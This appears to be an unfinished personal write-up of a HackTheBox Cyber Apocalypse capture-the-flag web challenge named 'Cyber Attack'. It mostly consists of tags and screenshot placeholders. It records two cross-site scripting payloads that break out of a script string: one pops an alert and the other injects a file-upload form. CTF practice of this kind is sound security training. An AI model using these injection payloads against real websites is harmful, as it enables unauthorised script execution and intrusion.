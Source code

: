 ```yaml
---
title: Cyber Attack
tags:
  - CTF
  - HackTheBox
  - CyberApocalypse
  - Web
date: 2025-03-22T00:00:00Z
---
```

![](Pasted%20image%2020250321233331.png)

XSS found:

```js
perico';</script><script>alert('xss');</script><script>
perico';</script><script>document.write('<form action="/upload.php" method="POST" enctype="multipart/form-data"><input type="file" name="file"><input type="submit" value="Subir"></form>');</script><script>
```

![](Pasted%20image%2020250322192534.png)

==Not finished==